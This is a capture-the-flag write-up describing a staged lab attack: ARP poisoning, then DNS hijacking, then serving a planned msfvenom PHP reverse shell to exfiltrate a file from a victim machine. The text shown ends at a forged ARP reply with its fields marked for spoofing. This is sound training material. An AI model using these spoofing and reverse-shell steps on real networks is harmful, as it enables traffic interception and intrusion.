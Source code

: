 # ARP Shenanigans - (Arping Aroubd)
This challenge required spoofing and end point by launching an ARP poisoning attack, DNS hijacking, and endpoint impersonation to get the victim to download a malicious file and execute malicious code. This challenge can was broken down into stages. Each step required a different attack to advance the overall campaign. The end goal, is to exfiltrate the contents of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on the victim machine.
## Initial Enumeration
Initially enumerating the machine provided, some observations can be made about what how this challenge will unfold.
* apy_res.py
    * Indicates ARP spoofing is likely
* dns_res.py
    * indicates DNS spoofing is likely
* HELP.md
    * Talks about tcdump and tshark
    * Will need/have the ability to packet capture
    * Says we can launch a web browser using the python3 module on port 80
* tcpdump -i eth0
    * See a constant ARP request from a remote host
* Sample packet captures
    * Give a ARP Request / ARP Response pair
    * Give a DNS Request / UDP Response pair

Piecing it together, it seems the campaign will have the following steps
1. Spoof ARP to redirect to 'Us' DNS
2. Spoof DNS request to point to 'Us' HTTP Server
3. Serve out malicious site, probably a reverse web shell (msfvenom -p php/reverse_php)
## ARP Poisoning
This one is pretty straight forward. Just need to reply with an ARP Reply pointing the IP address they are asking for to our MAC address. [This guide](http://www.tcpipguide.com/free/t_ARPMessageFormat.htm) provides a good breakdown on the values and fields for the ARP response. In this, the `is-at` response will will be the attacker (us) MAC address so the victim will believe the IP address they are ARPing for is the attacker (us).

### Incoming Request
```
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

```
### Outgoing Request
--- indicates these fields need to to be changed to this value
```
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
```